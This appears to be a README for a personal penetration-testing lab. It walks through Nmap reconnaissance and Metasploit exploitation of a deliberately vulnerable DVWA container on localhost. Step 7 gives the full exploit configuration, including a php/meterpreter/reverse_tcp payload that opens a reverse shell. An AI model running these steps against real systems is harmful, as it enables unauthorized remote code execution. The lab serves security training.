






 # Metasploit Remote Code Execution Lab  
### Target: DVWA in Docker (Kali Linux on VirtualBox – ARM Mac Compatible)

This project demonstrates a full offensive security workflow using:

- **Docker** (to host a vulnerable DVWA web application)
- **Nmap** (for recon & service enumeration)
- **Metasploit Framework** (for exploitation & payload handling)
- **php_cgi_arg_injection** exploit  
- **Meterpreter reverse shell**

This lab intentionally ends at **Step 7 (successful exploitation)** to keep the scope tight and focused on demonstrating **Metasploit competency** for interviews.

---


DVWA is hosted inside Kali using Docker.  
This eliminates VirtualBox networking issues on M1/M2/M3 Macs and provides a stable environment for exploitation.

---

# 1. DVWA Running in Browser

DVWA is successfully deployed and reachable at:  
**http://127.0.0.1**



---

# Step 1 — Setting up DVWA (Docker)

To run Linux x86_64 containers on ARM hardware, we installed QEMU binfmt support:

```bash
sudo docker run --rm --privileged tonistiigi/binfmt --install all
```


Then DVWA is started:

```bash
docker run --rm --platform linux/amd64 -p 80:80 vulnerables/web-dvwa
```



---

# 🔍 Step 2 — Reconnaissance with Nmap

A full service and OS scan was performed on the DVWA host:

```bash
sudo nmap -sV -O 127.0.0.1
```

This revealed:

- Apache 2.4.25  
- PHP backend  
- Linux environment  
- Only port **80** open  



This confirms the system is a typical PHP/Apache stack — commonly vulnerable to CGI-based exploitation.

---

# Step 3 — HTTP Version Detection (Metasploit)

Using Metasploit auxiliary scanner:

```bash
use auxiliary/scanner/http/http_version
set RHOSTS 127.0.0.1
run
```



This helps confirm the web server version & environment.

---

# Theory: Why This Matters

Reconnaissance is essential in penetration testing:

### ✔ Identify running services  
### ✔ Map versions to known vulnerabilities  
### ✔ Choose proper Metasploit modules  
### ✔ Determine attack surface  

Apache + PHP + mod_cgi → historically vulnerable to **argument injection**, which is exactly what we exploit next.

---

# Step 4 — Launching Metasploit

```bash
msfconsole
```



---

# Step 5 — Searching for HTTP-related exploits

```bash
search scanner/http
```


This shows many available Metasploit HTTP modules, including scanners and brute-forcers.

---

# Step 6 — Selecting the RCE Exploit

Search for PHP CGI exploit:

```bash
search php_cgi
```



We choose:

```
exploit/multi/http/php_cgi_arg_injection
```

This exploit targets a vulnerability where PHP is executed via CGI and arguments can be injected to execute arbitrary code.

---

# Step 7 — Exploitation (Remote Code Execution)

### Configure exploit:

```bash
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 127.0.0.1
set RPORT 80
set TARGETURI /
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
run
```


### Result:

✔ **Exploit completed successfully**  
✔ **A Meterpreter session was created**  
✔ **Remote Code Execution achieved**

This is the core objective of the lab.

---

# Theory: What You Just Achieved

### ✔ Identified a vulnerable PHP/Apache stack  
### ✔ Selected an exploit based on recon data  
### ✔ Configured Metasploit payloads  
### ✔ Exploited CGI argument injection  
### ✔ Gained a Meterpreter reverse shell  

This demonstrates strong practical understanding of:

- HTTP exploitation  
- Web server misconfiguration attacks  
- Payload handling  
- Metasploit modules & workflow  
- Practical penetration-testing methodology  

This is **absolutely interview-ready** skill demonstration.

---

# Disclaimer

This lab is for **educational purposes only**.  
Do NOT use these techniques without proper authorization.

